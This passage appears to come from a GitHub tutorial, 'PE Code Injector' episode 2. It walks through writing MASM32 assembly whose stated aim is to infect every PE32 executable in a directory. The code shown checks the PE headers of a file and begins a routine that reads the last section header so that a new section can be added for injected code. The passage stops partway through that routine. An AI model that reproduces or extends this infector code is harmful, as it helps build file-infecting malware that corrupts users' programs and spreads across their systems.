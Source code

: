 # A. Preparation

1. **Program Language**

Since I am using with Assembly in Windows, we should install MASM32 package [here](https://masm32.com/) to use the Windows library

In this chapter, I am using MASM32 macros so it looks like C code in some ways

2. **The idea**

To infect all PE32 within a directory, my idea was below:

![](https://github.com/0r3o-r3vEr5e/Episode-2-PE-Code-Injector/blob/main/Images/Idea.png)

Now let's start coding!

# B. Coding Time

## I. Check if a file is PE32 or not?

To do this, we need to check 3 things of a file:

- `e_magic` in `DOS Header`
- `Signature` in `NT Headers`
- `Magic` in `Optional Header`

And the `proc` should be like this:

```asm
.386
option casemap :none

INCLUDE \masm32\include\masm32rt.inc

includelib \masm32\lib\kernel32.lib
includelib \masm32\lib\user32.lib
INCLUDELIB \masm32\lib\masm32.lib

.data
    hFile dd ?
    bytesRead dd ?
    DOSHeader IMAGE_DOS_HEADER <>
    PEHeader IMAGE_NT_HEADERS <>

.code
isPE32 proc filename:DWORD
    invoke CreateFile, filename, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL
    mov hFile, eax
    .if hFile == INVALID_HANDLE_VALUE
        xor eax, eax
        ret
    .endif

    ; Check e_magic in DOS Header
    invoke ReadFile, hFile, addr DOSHeader, sizeof IMAGE_DOS_HEADER, addr bytesRead, NULL
    .if DOSHeader.e_magic != IMAGE_DOS_SIGNATURE
        jmp _exit
    .endif

    ; Check Signature in NT Headers
    invoke SetFilePointer, hFile, DOSHeader.e_lfanew, NULL, FILE_BEGIN
    invoke ReadFile, hFile, addr PEHeader, sizeof IMAGE_NT_HEADERS, addr bytesRead, NULL
    .if PEHeader.Signature != IMAGE_NT_SIGNATURE
        jmp _exit
        
    .endif

    ; Check Magic in Optional Header
    .if (PEHeader.OptionalHeader.Magic != IMAGE_NT_OPTIONAL_HDR32_MAGIC)
        jmp _exit
    .endif
    invoke CloseHandle, hFile
    mov eax, 1
    ret

_exit:
    invoke CloseHandle, hFile
    xor eax, eax
    ret

isPE32 endp
```

> **Tips:**
> You can print out message in certain places for debugging. I had to do it since I couldn't file any appropriate debuggers for MASM32 

## II. Add Section

I was trying to code this function like the C++ code in Chapter 1. But I am not good at handling pointer in Assembly :<< 
=> So my idea was set file pointer properly to read file to store headers in structures, edit those structures and then write into the file. Now just break down this into some smaller tasks.

#### 1. Store Headers

I am using ReadFile(), SetFilePointer() to do this
(As I mentioned, I am sucks at handling pointers in MASM)

```asm
.data
    hFile dd ?
    bytesRead dd ?
    bytesWritten dd ?
    DOSHeader IMAGE_DOS_HEADER <>
    PEHeader IMAGE_NT_HEADERS <>
    lastSectionHeader IMAGE_SECTION_HEADER <>
    newSectionHeader IMAGE_SECTION_HEADER <>

.code
addSection proc filename:DWORD
    ; Open file
    invoke CreateFile, filename, GENERIC_READ or GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL

    ; Get DOS Header
    mov hFile, eax
    invoke ReadFile, hFile, addr DOSHeader, sizeof IMAGE_DOS_HEADER, addr bytesRead, NULL
    

    ; Get NT Headers
    invoke SetFilePointer, hFile, DOSHeader.e_lfanew, NULL, FILE_BEGIN
    invoke ReadFile, hFile, addr PEHeader, sizeof IMAGE_NT_HEADERS, addr bytesRead, NULL

    ; Get the last section header
    movzx ecx, PEHeader.FileHeader.NumberOfSections
    imul ecx, ecx, sizeof IMAGE_SECTION_HEADER
    sub ecx, sizeof IMAGE_SECTION_HEADER

    invoke SetFilePointer, hFile, ecx, NULL, FILE_CURRENT
    invoke ReadFile, hFile, addr lastSectionHeader, sizeof IMAGE_SECTION_HEADER, addr bytesRead, NULL

```

> **Why am I getting data of the last section?**
> I need to calculate some data fields of the `newSectionHeader`, which depends on the data stored in `lastSectionHeader`.
